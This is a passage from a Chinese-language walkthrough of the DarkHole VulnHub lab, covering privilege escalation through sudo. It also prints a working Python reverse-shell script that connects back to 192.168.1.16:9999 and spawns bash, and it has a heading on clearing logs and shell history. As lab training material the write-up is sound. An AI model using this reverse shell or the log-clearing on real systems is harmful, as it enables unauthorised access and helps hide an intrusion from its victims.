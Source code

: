 ![](D:\stu\vulnhub\darkhole靶场\pic-1\26.jpg)



或者直接`sudo -i、sudo -s`或`sudo su -`，反正和`sudo`有关的提权基本上都可以上

![](D:\stu\vulnhub\darkhole靶场\pic-1\27.jpg)



#### python提权

在网上看到使用`john`也可以提权的方式，编写`file.py`脚本

```python
import os,pty,socket
s=socket.socket()
s.connect(("192.168.1.16",9999))
[os.dup2(s.fileno(),f)for f in(0,1,2)]
pty.spawn("bash")
```

![](D:\stu\vulnhub\darkhole靶场\pic-1\28.jpg)



## 清空日志和历史记录

![](D:\stu\vulnhub\darkhole靶场\pic-1\29.jpg)







## 总结

1. 网站可能错在的业务漏洞，这里是权限的问题
2. 文件上传的漏洞，扩展名即可
3. `msf`生成`php`反弹`shell`与进行监听的使用
4. 一个密码多用账户的情况
5. `export`临时环境变量的使用
6. `sudo`提权的掌握
7. `python`反弹进行提权























